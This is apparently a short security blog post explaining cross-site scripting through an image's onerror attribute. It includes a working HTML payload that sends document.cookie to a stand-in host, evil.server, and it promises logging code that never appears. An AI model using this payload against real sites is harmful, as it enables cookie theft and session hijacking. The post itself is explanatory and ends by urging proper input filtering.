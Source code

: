 ```yaml
---
layout: post
title: XSS with Img OnError attribute
tags:
- javascript
- PHP
- security
---
```


So much of my time is spent worrying over the src or href tags on images and links - that I sometimes forget about the other attributes.

Imagine being able to make an image which has no black-flagged content in the src but yet can still make a remote request, logging the user's cookie information?  Thats right - this can be done - using the 'onerror' attribute of an image.

What you need to do is to create an image link that is obviously broken or empty.  Then, javascript handles such events by throwing an error for that element.  Add an item to the onerror attribute to request a remote URL as your images src - which you add on document.cookie.  The remote script logs all requests, and then displays an image.

Check out the code below:

Source page without proper filtering:

{% highlight HTML %}
<html>
    <body>
        <h1>test</h1>
        <h2>asdf</h2>
        <img onerror="this.src='http://evil.server/exploit.php?'+document.cookie" src=""></img>
    </body>
</html>
{% endhighlight %}

Then, on evil.server, place your image.  Finally, top it off with the following code in exploit.php

Easy as that.  Just another reminder to properly filter your use submitted content.
